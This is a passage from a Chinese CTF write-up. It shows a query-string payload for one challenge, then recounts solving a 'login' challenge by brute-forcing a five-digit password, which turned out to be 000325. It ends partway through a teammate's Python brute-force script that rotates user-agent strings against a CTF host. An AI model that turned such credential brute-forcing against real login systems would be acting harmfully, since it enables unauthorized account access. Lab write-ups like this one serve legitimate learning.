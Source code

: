 最后的payload自然出来了

```
?x1=0&x2={"x21":"2018b","x22":[["XIPUx"],0]}&x3=XIPU18570
```

## 登陆

这题把我坑的更惨。虽然一点儿不难
右键查看网页源代码

```
<!-- 听说密码是一个五位数字 -->
```



当时学弟提醒我直接爆破，我看完手上那个题目后，马上写了这个脚本着手爆破，但是爆破了几个小时（不会写多线程），爆破到了4w。后来忙完其他题目，再去看会不会是注入，但是根据猜测对username做的过滤就是只有admin才行。最后狗哥说就是爆破 而且密码是000325，我的心就碎了，我是从10000爆破到99999的。哇的一声哭出来~~~
附带狗哥的脚本

```python
import requests
import re
import random
import codecs
user_agent_list = [
            "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/22.0.1207.1 Safari/537.1",
            "Mozilla/5.0 (X11; CrOS i686 2268.111.0) AppleWebKit/536.11 (KHTML, like Gecko) Chrome/20.0.1132.57 Safari/536.11",
            "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.6 (KHTML, like Gecko) Chrome/20.0.1092.0 Safari/536.6",
            "Mozilla/5.0 (Windows NT 6.2) AppleWebKit/536.6 (KHTML, like Gecko) Chrome/20.0.1090.0 Safari/536.6",
            "Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/19.77.34.5 Safari/537.1",
            "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/536.5 (KHTML, like Gecko) Chrome/19.0.1084.9 Safari/536.5",
            "Mozilla/5.0 (Windows NT 6.0) AppleWebKit/536.5 (KHTML, like Gecko) Chrome/19.0.1084.36 Safari/536.5",
            "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1063.0 Safari/536.3",
            "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1063.0 Safari/536.3",
            "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_0) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1063.0 Safari/536.3",
            "Mozilla/5.0 (Windows NT 6.2) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1062.0 Safari/536.3",
            "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1062.0 Safari/536.3",
            "Mozilla/5.0 (Windows NT 6.2) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1061.1 Safari/536.3",
            "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1061.1 Safari/536.3",
            "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1061.1 Safari/536.3",
            "Mozilla/5.0 (Windows NT 6.2) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1061.0 Safari/536.3",
            "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/535.24 (KHTML, like Gecko) Chrome/19.0.1055.1 Safari/535.24",
            "Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/535.24 (KHTML, like Gecko) Chrome/19.0.1055.1 Safari/535.24"
        ]

url = 'http://ctf1.shiyanbar.com/shian-s/'
def logfile(log, logfile):
```